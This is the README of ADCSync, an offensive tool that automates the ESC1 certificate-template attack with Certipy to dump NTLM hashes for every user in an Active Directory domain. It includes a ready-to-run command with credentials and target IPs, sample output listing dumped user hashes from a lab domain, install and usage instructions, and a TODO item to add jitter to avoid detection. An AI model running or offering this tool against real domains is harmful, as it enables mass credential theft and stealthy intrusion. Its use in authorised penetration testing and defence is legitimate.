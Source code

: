 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DSRUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

```
python3 adcsync.py -u clu -p theperfectsystem -ca THEGRID-KFLYNN-DC-CA -template SmartCard -target-ip 192.168.0.98 -dc-ip 192.168.0.98 -f users.json -o ntlm_dump.txt

    ___    ____  ___________
   /   |  / __ \/ ____/ ___/__  ______  _____
  / /| | / / / / /    \__ \/ / / / __ \/ ___/
 / ___ |/ /_/ / /___ ___/ / /_/ / / / / /__
/_/  |_/_____/\____//____/\__, /_/ /_/\___/
                         /____/

Grabbing user certs:
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 105/105 [02:18<00:00,  1.32s/it]
THEGRID.LOCAL/shirlee.saraann::aad3b435b51404eeaad3b435b51404ee:68832255545152d843216ed7bbb2d09e:::
THEGRID.LOCAL/rosanne.nert::aad3b435b51404eeaad3b435b51404ee:a20821df366981f7110c07c7708f7ed2:::
THEGRID.LOCAL/edita.lauree::aad3b435b51404eeaad3b435b51404ee:b212294e06a0757547d66b78bb632d69:::
THEGRID.LOCAL/carol.elianore::aad3b435b51404eeaad3b435b51404ee:ed4603ce5a1c86b977dc049a77d2cc6f:::
THEGRID.LOCAL/astrid.lotte::aad3b435b51404eeaad3b435b51404ee:201789a1986f2a2894f7ac726ea12a0b:::
THEGRID.LOCAL/louise.hedvig::aad3b435b51404eeaad3b435b51404ee:edc599314b95cf5635eb132a1cb5f04d:::
THEGRID.LOCAL/janelle.jess::aad3b435b51404eeaad3b435b51404ee:a7a1d8ae1867bb60d23e0b88342a6fab:::
THEGRID.LOCAL/marie-ann.kayle::aad3b435b51404eeaad3b435b51404ee:a55d86c4b2c2b2ae526a14e7e2cd259f:::
THEGRID.LOCAL/jeanie.isa::aad3b435b51404eeaad3b435b51404ee:61f8c2bf0dc57933a578aa2bc835f2e5:::
```

## Introduction
ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation
```
git clone https://github.com/JPG0mez/adcsync.git
cd adcsync
pip3 install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```
# python3 adcsync.py --help
    ___    ____  ___________                 
   /   |  / __ \/ ____/ ___/__  ______  _____
  / /| | / / / / /    \__ \/ / / / __ \/ ___/
 / ___ |/ /_/ / /___ ___/ / /_/ / / / / /__  
/_/  |_/_____/\____//____/\__, /_/ /_/\___/  
                         /____/              

Usage: adcsync.py [OPTIONS]

Options:
  -f, --file TEXT      Input User List JSON file from Bloodhound  [required]
  -o, --output TEXT    NTLM Hash Output file  [required]
  -ca TEXT             Certificate Authority  [required]
  -dc-ip TEXT          IP Address of Domain Controller  [required]
  -u, --user TEXT      Username  [required]
  -p, --password TEXT  Password  [required]
  -template TEXT       Template Name vulnerable to ESC1  [required]
  -target-ip TEXT      IP Address of the target machine  [required]
  --help               Show this message and exit.

```

## TODO
* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements
* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
